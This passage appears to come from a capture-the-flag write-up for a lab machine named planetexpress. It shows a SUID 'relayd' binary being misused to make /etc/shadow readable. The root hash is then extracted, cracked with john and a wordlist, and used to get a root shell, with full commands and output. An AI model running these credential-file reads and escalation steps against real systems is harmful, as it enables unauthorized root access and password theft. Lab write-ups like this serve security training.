 Since the binary has the SUID bit set, we can abuse this misconfiguration to modify file permissions and read `/etc/shadow`.

```
www-data@planetexpress:/tmp$ ls -l /etc/shadow
ls -l /etc/shadow
-rw-r----- 1 root shadow 940 Jan 10 23:25 /etc/shadow
www-data@planetexpress:/tmp$ /usr/sbin/relayd -C /etc/shadow
/usr/sbin/relayd -C /etc/shadow
[ERR] 2022-03-10 00:39:08 config.cpp:1539 write
[ERR] 2022-03-10 00:39:08 config.cpp:1213 open failed [/usr/etc/relayd/misc.conf.tmp.12217]
[ERR] 2022-03-10 00:39:08 config.cpp:1189 bad json format [/etc/shadow]
[ERR] 2022-03-10 00:39:08 invalid config file
www-data@planetexpress:/tmp$ ls -l /etc/shadow
ls -l /etc/shadow
-rw-r--r-- 1 root shadow 940 Jan 10 23:25 /etc/shadow
```

Now we can run the following command to grab the root password hash from `/etc/shadow`.

```
www-data@planetexpress:/tmp$ cat /etc/shadow | grep root
cat /etc/shadow | grep root
root:$6$vkAzDkveIBc6PmO1$y8QyGSMqJEUxsDfdsX3nL5GsW7p/1mn5pmfz66RBn.jd7gONn0vC3xf8ga33/Fq57xMuqMquhB9MoTRpTTHVO1:19003:0:99999:7:::
```

Let's crack the password hash with `john`.

```
┌──(kali㉿kali)-[~]
└─$ unshadow passwd.txt shadow.txt > unshadow.txt
                                                                                                                                                                                                                                      
┌──(kali㉿kali)-[~]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt unshadow.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
neverwant2saygoodbye (root)     
1g 0:00:05:14 DONE (2022-03-10 00:50) 0.003179g/s 2676p/s 2676c/s 2676C/s newme11..nevada99
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Now we have obtained the root user's password. Let's try to login as root using the password `neverwant2saygoodbye`.

```
www-data@planetexpress:/tmp$ su root
su root
Password: neverwant2saygoodbye

root@planetexpress:/tmp# id
id
uid=0(root) gid=0(root) groups=0(root)
```